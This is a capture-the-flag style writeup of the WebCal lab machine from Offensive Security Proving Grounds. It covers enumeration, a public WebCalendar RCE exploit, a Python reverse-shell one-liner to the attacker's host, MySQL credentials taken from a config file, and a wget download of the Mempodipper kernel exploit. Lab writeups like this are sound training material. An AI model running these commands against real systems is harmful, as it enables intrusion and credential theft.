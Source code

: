 ```yaml
---
description: Writeup for WebCal from Offensive Security Proving Grounds (PG)
---
```


# WebCal

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.66.37 -t full`

![](<../../.gitbook/assets/3af61e400c594392bd79c8ab1f9fb8d8 (1).png>)

`nmapAutomator.sh -H 192.168.66.37 -t vulns`

![](../../.gitbook/assets/e2f62497e8794c54a9b09622bfa5aebc.png)

![](../../.gitbook/assets/b646b002be034d1c994d281a253c8595.png)

### HTTP

![](../../.gitbook/assets/eec0eca2638148bf923d427329916abb.png)

`gobuster dir -u http://192.168.66.37/ -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 50`

![](../../.gitbook/assets/0429b7f13a944fa3a648c019980f37c7.png)

* /resources
* /send
* /webcalendar

We find a login page at `http://192.168.66.37/webcalendar/login.php`.

![](../../.gitbook/assets/78de1e60b6414506a0ad3d3e7d54bc44.png)

The version is v1.2.3

## Exploit

WebCalendar <= v1.2.4 suffers from an RCE vulnerability: [https://www.exploit-db.com/exploits/18775](https://www.exploit-db.com/exploits/18775)

Simply running the exploit above gives us RCE. `php 18775.php 192.168.66.37 /webcalendar/`

![](../../.gitbook/assets/8977a6a9c0ac46499940a756c072ec7d.png)

Once here, we can use a Python payload to catch a reverse shell on our Kali machine.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.66",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

![](../../.gitbook/assets/c4bba3402d714ca3a88cc8d3d09121cf.png)

On our Kali machine:

![](../../.gitbook/assets/8a0406a755c44e44a52e901c12bd9190.png)

![](../../.gitbook/assets/f3702a7cf9ad455da6df239e8298126b.png)

## Privilege Escalation

### MySQL

The `settings.php` file looks interesting.

![](../../.gitbook/assets/00f3d4c81f3048829db8819f979d5855.png)

Upon further inspection, the MySQL database credentials are in this file.

![](../../.gitbook/assets/445285c4d569403cb175567209d6bc79.png)

Furthermore, we now have access to port 3306, which is the MySQL port.

![](../../.gitbook/assets/724b343fa230482b9c35d9ef90ec297b.png)

```
www-data@ucal:/home$ mysql --user=wc --password 
Enter password: edjfbxMT7KKo2PPC
```

![](../../.gitbook/assets/f7269c70496846ffa17cd9ba79c79d96.png)

![](../../.gitbook/assets/db91a3c3fe1d41fa8c82372e88a3f1ee.png)

### Kernel Exploit

The kernel version 3.0.0 is vulnerable to an exploit called Mempodipper.

![](../../.gitbook/assets/92ac0c212dde43ffac643a06f9faa240.png)

Compile: `gcc mempodipper.c -o mempodipper`

Transfer: `wget "192.168.49.66/mempodipper" -O mempodipper`

![](../../.gitbook/assets/389c736476d54a88b1cf246057784dc4.png)

![](../../.gitbook/assets/d214e7915ef24d1d94ff05ac13f15f04.png)

